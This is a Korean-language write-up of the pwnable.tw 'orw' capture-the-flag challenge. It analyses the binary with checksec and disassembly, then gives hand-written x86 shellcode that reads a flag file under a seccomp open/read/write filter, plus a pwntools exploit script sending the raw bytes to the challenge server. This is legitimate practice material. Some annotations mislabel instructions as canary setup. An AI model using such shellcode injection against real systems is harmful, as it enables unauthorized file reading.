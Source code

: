 # orw

Read the flag from `/home/orw/flag`.

Only `open` `read` `write` syscall are allowed to use.

`nc chall.pwnable.tw 10001`

[orw](https://pwnable.tw/static/chall/orw)

---

```
$ file orw
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped
```

32비트 ELF 실행파일로 라이브러리는 `/lib/ld-linux.so.2`를 사용하고 디버깅 정보가 그대로 붙어 있다.

```
pwndbg> checksec
[*] '/home/jhyun/Desktop/Hacking/pwnable.tw/orw'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

카나리가 걸려있다. 함수는 `main`과 `orw_seccomp` 함수가 있다.

```
pwndbg> disass main
Dump of assembler code for function main:
   0x08048548 <+0>:	lea    ecx,[esp+0x4]
   0x0804854c <+4>:	and    esp,0xfffffff0
   0x0804854f <+7>:	push   DWORD PTR [ecx-0x4]
        카나리 설정
   0x08048552 <+10>:	push   ebp
   0x08048553 <+11>:	mov    ebp,esp
        함수 프롤로그
   0x08048555 <+13>:	push   ecx
   0x08048556 <+14>:	sub    esp,0x4
   0x08048559 <+17>:	call   0x80484cb <orw_seccomp>
        orw_seccomp 함수에서 secure computing 관련 함수로 시스템 콜을 제한함
   0x0804855e <+22>:	sub    esp,0xc
   0x08048561 <+25>:	push   0x80486a0
   0x08048566 <+30>:	call   0x8048380 <printf@plt>
   0x0804856b <+35>:	add    esp,0x10
        printf("Give my your shellcode:");
   0x0804856e <+38>:	sub    esp,0x4
   0x08048571 <+41>:	push   0xc8
   0x08048576 <+46>:	push   0x804a060
   0x0804857b <+51>:	push   0x0
   0x0804857d <+53>:	call   0x8048370 <read@plt>
   0x08048582 <+58>:	add    esp,0x10
        read(0, 0x804a060, 0xC8);
   0x08048585 <+61>:	mov    eax,0x804a060
   0x0804858a <+66>:	call   eax
        0x804a060();
   0x0804858c <+68>:	mov    eax,0x0
   0x08048591 <+73>:	mov    ecx,DWORD PTR [ebp-0x4]
   0x08048594 <+76>:	leave  
   0x08048595 <+77>:	lea    esp,[ecx-0x4]
        카나리 체크
   0x08048598 <+80>:	ret    
End of assembler dump.
```

`main` 함수를 놓고 보면 위와 같다.

별 다른 생각 없이 `open` `read` `write` 시스템 콜로 `/home/orw/flag`만 가져오면 될 것 같다.

1. a = open("/home/orw/flag", O_RDONLY)
2. read(a, 0x804a060, 0x30)
3. write(1, 0x804a060, 0x30)

귀찮아서 인터넷에서 [온라인 어셈블러](https://defuse.ca/online-x86-assembler.htm) 검색해서 string literal을 가져왔다.

어셈블리 코드는 생각보다 간단하다.

```
push 0x6761
push 0x6C662F77
push 0x726F2F65
push 0x6D6F682F
mov ebx, esp
xor ecx, ecx
xor edx, edx
mov eax, 0x5
int 0x80
mov ebx, eax
mov ecx, 0x804a060
mov edx, 0x30
mov eax, 0x3
int 0x80
mov ebx, 0x0
mov ecx, 0x804a060
mov edx, 0x30
mov eax, 0x4
int 0x80
xor eax, eax
add eax, 1
int 0x80
```

이렇게 돌려서 나온 string literal을 입력하면 된다.

```python
from pwn import *

r = remote('chall.pwnable.tw', 10001)
# r = process("/home/jhyun/Desktop/Hacking/pwnable.tw/orw")
# context.log_level='debug'
# gdb.attach(r, 'b* 0x08048582')

print r.recv()

payload = "\x68\x61\x67\x00\x00\x68\x77\x2F\x66\x6C\x68\x65\x2F\x6F\x72\x68\x2F\x68\x6F\x6D\x89\xE3\x31\xC9\x31\xD2\xB8\x05\x00\x00\x00\xCD\x80\x89\xC3\xB9\x60\xA0\x04\x08\xBA\x30\x00\x00\x00\xB8\x03\x00\x00\x00\xCD\x80\xBB\x00\x00\x00\x00\xB9\x60\xA0\x04\x08\xBA\x30\x00\x00\x00\xB8\x04\x00\x00\x00\xCD\x80\x31\xC0\x83\xC0\x01\xCD\x80"

r.send(payload)

print r.recv()
```